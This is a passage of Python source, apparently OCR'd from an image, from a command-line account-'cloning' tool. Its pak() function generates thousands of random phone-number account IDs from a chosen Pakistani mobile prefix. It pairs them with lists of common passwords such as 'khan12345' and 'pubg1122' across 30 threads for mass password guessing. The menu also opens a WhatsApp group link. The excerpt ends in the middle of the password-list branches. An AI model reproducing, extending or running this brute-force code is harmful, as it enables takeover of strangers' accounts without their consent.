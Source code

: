 				linex()
				input(' Press enter to back ')
				os.system('python IJAZ.py')
			elif xd in ['2','02']:
				pak()
			elif xd in ['3','03']:
				gmail()
				#create()
				#dz._login()
				exit()
			elif xd in ['4','04']:
				os.system('xdg-open https://chat.whatsapp.com/GRCLEUOREdd1SDMTX1TsKk')
				menu()
			elif xd in ['0','00']:
				exit(' Thanks for use 🥰 ')
			else:
				exit(' Option not found in menu...')
		
def pak():
		user=[]
		clear()
		print('\033[1;35m Code example: 0306,0315,0335,0345')
		code = input('\033[1;37m put code: ')
		try:
			limit = int(input('\033[1;35m example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
		except ValueError:
			limit = 5000
		clear()
		print('\033[1;32m [1] \033[1;33mMethod   (best) \033[1;32m \n [2] \033[1;33mMethod   (v-fast)  \033[1;32m \n [3] \033[1;33mMethod   (v-best)  \033[1;32m \n [4] \033[1;33mMethod   (with cokies) \033[1;32m \n [5] \033[1;33mMethod   (slow)  \033[1;32m \n [6] \033[1;33mMethod   (slow) ')
		linex()
		mthd = input(' Choose: ')
		clear()
		print('\033[1;32m [1] \033[1;33mClone with 7+11 digit pass (v-fast) \n\033[1;32m [2]\033[1;33m Clone with auto pass (best) \n\033[1;32m [3]\033[1;33m Clone with auto pass (fast)\n\033[1;32m [5] \033[1;33mClone with auto pass (slow-best) \n\033[1;32m [5] \033[1;33mClone with auto pass (slow-fast) \n\033[1;32m [6] \033[1;33mClone with auto pass (slow-best) \n\033[1;32m [7] \033[1;33mClone with auto pass (only-BD) \n\033[1;32m [8] \033[1;33mClone with auto pass (only-AFG) ')
		linex()
		pcs = input(' [?] Select: ')
		for nmbr in range(limit):
			nmp = ''.join(random.choice(string.digits) for _ in range(7))
			user.append(nmp)
		with tred(max_workers=30) as IJAZ:	
			clear()
			tl = str(len(user))
			print(' Total ids : \033[1;32m'+tl+f' ')
			print(f'\033[1;37m Choice code  :\033[1;32m '+code)
			print(' \033[1;37mThe process is running in the background')
			linex()
			for psx in user:
				ids = code+psx
				if pcs in ['1','01']:
					passlist = [psx,ids,'khankhan','khan1122','ali12345','khanbaba','pakistan','khan12345','ali1122','12345','khanking','baloch','pubg','pubg1122']
				if pcs in ['2','02']:
					passlist = [psx,ids,'khanzada','pakistan','khan12345','ali1122','baloch12345',' 123','baloch','khan','pubg','pubg1122','malik786']
				elif pcs in ['3','03']:
					passlist = [psx,ids,'pubg','pubg1122','pubgking','pubg12','pubg123','pubg1234']
				elif pcs in ['4','04']:
					passlist = [psx,ids,' ',' ','khan1234','khan123']
				elif pcs in ['5','05']: